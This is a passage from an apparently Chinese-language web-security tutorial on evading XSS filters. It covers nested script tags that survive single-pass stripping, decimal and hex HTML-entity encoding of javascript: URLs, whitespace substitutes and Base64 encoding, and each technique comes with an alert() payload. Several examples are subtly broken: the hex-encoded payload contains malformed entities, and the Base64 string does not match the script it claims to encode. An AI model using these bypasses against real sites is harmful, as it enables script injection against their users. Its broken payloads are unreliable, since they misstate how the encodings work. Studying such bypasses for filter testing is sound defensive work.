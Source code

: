 [![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-73e6550939250591900c37621c2110dc0a2dde65.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-73e6550939250591900c37621c2110dc0a2dde65.png)

**另一种形式：**  
利用过滤后返回语句再次构成攻击语句来绕过  
这个字面上不是很好理解，用实例来说。  
如下图，在这个例子中我们直接敲入script标签发现返回的网页代码中script标签被去除了，但其余的内容并没有改变。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-318c3e2edb48cbf02dea2a8c8d08349b3aaabe41.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-318c3e2edb48cbf02dea2a8c8d08349b3aaabe41.png)  
于是我们就可以人为的制造一种巧合，让过滤完script标签后的语句中还有script标签（毕竟alert函数还在），像这样：

```html
http://192.168.1.102/xss/example3.php?name=<sCri<script>pt>alert("hey!")</scRi</script>pt>
```

发现问题了吧，这个利用原理在于只过滤了一个script标签。

### 4.对标签属性值变换成ASCII码

ASCII编码也就是十进制编码。  
如t的ASCII为116，用&amp;#116表示;  
冒号:则表示为&amp;#58。

```html
<img src="javascript:alert(0);">
<img src="javascrip&#116&#58alert(0);">
```

将javascript:alert(1)转换成了ASCII码

```html
<a href=javascript:alert(1)>
<a href=&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#49&#41>
```

### 5.对标签属性值进行十六进制编码

如a的十六进制编码为&amp;#x61，利用方式和ASCII编码一致。  
将javascript:alert(1)转换成了十六进制编码

```html
<a href=javascript:alert(1)>
<a href=&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&tx70&#x74&tx3a&#x61&x6c&#x65&#x72&#x74&#x28&#x31&x29>
```

### 6.空格代替

空格可以使用多种字符来进行替代。  
如`/、//、%0a、%0d、Table键`出来的空白替代空格。

### 7.Base64编码

如`<script>alert("Hello");</script>`  
经过Base64编码后:  
`PHNjcmlwdD5hbGVydCgisGVsbG8iKTs8L3NjcmlwdD4=`

